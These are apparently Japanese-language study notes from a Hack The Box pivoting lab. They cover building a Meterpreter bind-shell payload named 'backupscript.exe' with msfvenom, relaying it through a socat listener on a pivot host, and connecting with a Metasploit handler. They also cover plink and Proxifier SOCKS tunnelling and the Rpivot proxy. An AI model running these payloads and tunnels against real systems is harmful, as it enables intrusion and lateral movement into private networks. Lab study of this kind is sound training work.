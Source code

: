 1. ピボットホストを介したターゲット(Windows A)上で動作させるバインドシェルペイロードを作成する
```shell
snowyowl644@htb[/htb]$ msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe LPORT=8443
```

2. Socatでの通信
- ピボットホストのUbuntuでSocat を使用して **バインドシェルのリスナー** を起動し、**ポート 8080 で接続を待ち受け、Windows サーバーのポート 8443 へパケットを転送**する
```shell
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

3. Windowsへの接続
- バインドハンドラーは、**Ubuntu サーバー上の Socat リスナー（ポート 8080）に接続するように設定**
```sh
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 10.129.202.64:8080
```



# Windows用SSH : plink.exe
- [Plink](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)はPuTTY Linkの略で、インストール時にPuTTYパッケージの一部として付属するWindowsコマンドラインSSHツール
- SSHと同様に、PlinkはダイナミックポートフォワーディングやSOCKSプロキシの作成にも使用できる
	- 2018年の秋前は、WIndowsにはsshが含まれていなかったため、PuTTYがよく使われた
![](https://i.imgur.com/WozIYLm.png)

Windows攻撃ホストで、コマンドで、plink.exeプロセスを起動し、Ubuntuサーバー上での動的ポートフォワードを開始する
```sh
plink -ssh -D 9050 ubuntu@10.129.15.50
```

また、[Proxifier](https://www.proxifier.com/)と呼ばれる別のWindowsベースのツールを使用して、作成したSSHセッションを介してSOCKSトンネルを起動できる
- Proxifier
	- デスクトップクライアントアプリケーション用のトンネルネットワークを作成し、SOCKSまたはHTTPSプロキシを介して動作させ、プロキシチェーンを可能にするWindowsツール
	- ポート9050でPlinkによって開始されたSOCKSサーバーの構成を提供できるプロファイルを作成できる
- `127.0.0.1`とポート9050のSOCKSサーバーを設定した後、`mstsc.exe`を直接起動して、RDP接続を許可するWindowsターゲットでRDPセッションを開始できる

# Rpivot
- Rpivotは、Pythonで作られたリバース SOCKS プロキシツールで、SOCKS トンネリングを実現するために使用される
- 企業ネットワーク内のマシンを外部サーバーへ接続し、クライアントのローカルポートをサーバー側で公開するというもの
